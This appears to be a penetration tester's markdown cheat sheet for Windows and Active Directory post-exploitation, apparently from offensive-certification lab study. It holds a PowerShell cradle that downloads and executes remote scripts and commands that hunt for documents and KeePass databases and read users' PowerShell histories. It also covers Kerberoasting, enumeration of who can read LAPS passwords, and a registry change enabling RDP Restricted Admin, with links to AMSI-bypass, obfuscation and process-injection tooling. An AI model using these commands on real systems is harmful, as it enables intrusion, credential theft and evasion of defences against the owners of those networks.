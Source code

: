 # To DO:

- find code and have links to different injection techniques with descriptions
## Enumeration
- Bloodhound/Sharphound
- open ports internally and externally
- users files 
	- .ssh
	- /tmp
	- bash_history
	- powershell command history

## Powershell

#### Download scripts
```powershell
iex(new-object system.net.webclient).downloadstring('http://192.168.49.68/_<ToolName>_.ps1')
```

##### Searching
```powershell
Get-ChildItem -Path C:\Users -Include *.txt,*.doc,*.pdf,*.docx,*.xls,*.xlsx,*.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

##### Command history
```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

#### Search all including hidden
```powershell
Get-ChildItem -Path C:\Users -Recurse -File -ErrorAction SilentlyContinue -Force| where Length -gt 0kb
```

#### Invoke Commands Remotely

```powershell
Invoke-Command -computername <name> -scriptblock { whoami }
```
- do things like rollback Windows Defender or execute payloads

#### Obfuscation
- Invoke-Steatlh on kali (https://github.com/JoelGMSec/Invoke-Stealth?tab=readme-ov-file)

## PowerView

- Website https://powersploit.readthedocs.io/en/latest/Recon/
- General Commands to try
```
ConvertTo-SID                   -   converts a given user/group name to a security identifier (SID)
```
```
Invoke-Kerberoast               -   requests service tickets for kerberoast-able accounts and returns extracted ticket hashes
```
```
Get-Domain                      -   returns the domain object for the current (or specified) domain
```
```
Get-Forest                      -   returns the forest object for the current (or specified) forest
```
```
Get-ForestDomain                -   return all domains for the current (or specified) forest
```
```
Get-DomainUser                  -   return all users or specific user objects in AD
```

#### Find all LAPS-enabled machines
```powershell
Get-DomainComputer -LDAPFilter '(ms-Mcs-AdmPwdExpirationtime=*)'
```

##### **Enumerates all users/groups who can view LAPS password on specified `LAPSCLIENT.test.local` machine**
```powershell
Get-DomainComputer LAPSCLIENT.test.local | 
	Select-Object -ExpandProperty distinguishedname | 
	ForEach-Object { $_.substring($_.indexof('OU')) } | ForEach-Object { 
		Get-DomainObjectAcl -ResolveGUIDs $_.ObjectDN 
	} | Where-Object { 
		($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and 
		($_.ActiveDirectoryRights -match 'ReadProperty')
	} | Select-Object -ExpandProperty SecurityIdentifier | Get-DomainObject
```



## PowerUp



## Tools to not forget

- Invoke-ReflectivePEInjection
- impacket tools
- krbrelayx
- ntlmrelay
- comsvcs.dll (dump process memory to file)
- UAC Bypass

## Kerberos tickets

- look in /tmp on linux hosts
- run klist to see tickets on windows and linux 

## Websites for Tools

### AMSI Bypass
- https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file


### Code Snippets
- https://github.com/chvancooten/OSEP-Code-Snippets
- https://github.com/tasox/CSharp_Process_Injection/tree/main


### Install always elevated

```powershell
# Check User Policy
$userPolicy = Get-ItemProperty -Path 'HKCU:\Software\Policies\Microsoft\Windows\Installer' -Name AlwaysInstallElevated -ErrorAction SilentlyContinue

# Check Machine Policy
$machinePolicy = Get-ItemProperty -Path 'HKLM:\Software\Policies\Microsoft\Windows\Installer' -Name AlwaysInstallElevated -ErrorAction SilentlyContinue

# Output Results
if ($userPolicy.AlwaysInstallElevated -eq 1) {
    Write-Host "User policy for AlwaysInstallElevated is enabled."
} else {
    Write-Host "User policy for AlwaysInstallElevated is disabled or not set."
}

if ($machinePolicy.AlwaysInstallElevated -eq 1) {
    Write-Host "Machine policy for AlwaysInstallElevated is enabled."
} else {
    Write-Host "Machine policy for AlwaysInstallElevated is disabled or not set."
}

```


### RDP Restricted Admin

```powershell
Get-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation" | Select-Object RestrictedAdmin, AllowRestrictedAdmin
```

```powershell
Get-WinEvent -LogName 'Microsoft-Windows-TerminalServices-RemoteConnectionManager/Operational' -FilterHashtable @{Id=1149} | ForEach-Object {
    $_.Message
} | Select-String -Pattern "RestrictedAdmin"
```

- Disable Restricted Admin
```powershell
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```